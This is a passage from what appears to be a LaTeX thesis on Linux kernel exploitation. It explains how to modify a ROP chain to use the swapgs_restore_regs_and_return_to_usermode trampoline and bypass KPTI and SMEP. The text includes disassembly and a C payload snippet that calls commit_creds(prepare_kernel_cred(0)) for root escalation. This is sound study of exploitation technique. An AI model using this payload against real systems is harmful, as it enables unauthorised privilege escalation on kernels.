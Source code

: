 \documentclass{masterthesis}
\newcommand{\refToSubSection}[1]{Subsection~\ref{subsect:#1}\xspace}
\begin{document}
\subsection{Tweaking the ROP chain}
The piece of code resides in a function called \\\texttt{swapgs_restore_regs_and_return_to_usermode()} which we always have to find with \texttt{/proc/kallsyms}.
\begin{lstlisting}
.text:FFFFFFFF81200F10                 pop     r15
...
.text:FFFFFFFF81200F26                 mov     RDI, rsp
.text:FFFFFFFF81200F29                 mov     rsp, qword ptr gs:unk_6004
.text:FFFFFFFF81200F32                 push    qword ptr [RDI+30h]
.text:FFFFFFFF81200F35                 push    qword ptr [RDI+28h]
.text:FFFFFFFF81200F38                 push    qword ptr [RDI+20h]
.text:FFFFFFFF81200F3B                 push    qword ptr [RDI+18h]
.text:FFFFFFFF81200F3E                 push    qword ptr [RDI+10h]
.text:FFFFFFFF81200F41                 push    qword ptr [RDI]
.text:FFFFFFFF81200F43                 push    RAX
.text:FFFFFFFF81200F44                 jmp     short loc_FFFFFFFF81200F89
...

.text:FFFFFFFF81200F89 loc_FFFFFFFF81200F89:
.text:FFFFFFFF81200F89                               pop     RAX
.text:FFFFFFFF81200F8A                               pop     RDI
.text:FFFFFFFF81200F8B                               call    cs:off_FFFFFFFF82040088
.text:FFFFFFFF81200F91                               jmp     cs:off_FFFFFFFF82040080
\end{lstlisting}
Up to the address \texttt{OxFFFFFFFF81200F26} the function makes a series of pop operations that free the stack, then we have to get to the part that swaps the tables of the page.
We have two extra pop at the beginning, then we have to add two additional values, so we have to modify the final part of our ROP chain from \texttt{SWAPGS|IRETQ|RIP|CS|RFLAGS|SP|SS)} to \texttt{KPTI_trampoline|dummy RAX|dummy RDI|RIP|CS|RFLAGS|SP|SS}.
\begin{lstlisting}
void overflow(void){
    // ...
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    // ...
\end{lstlisting}
This solution can be used regardless of whether KPTI is enabled or not.
So, even if different from the one seen in \refToSubSection{second scenario}, it can be used to bypass the SMEP.
\end{document}
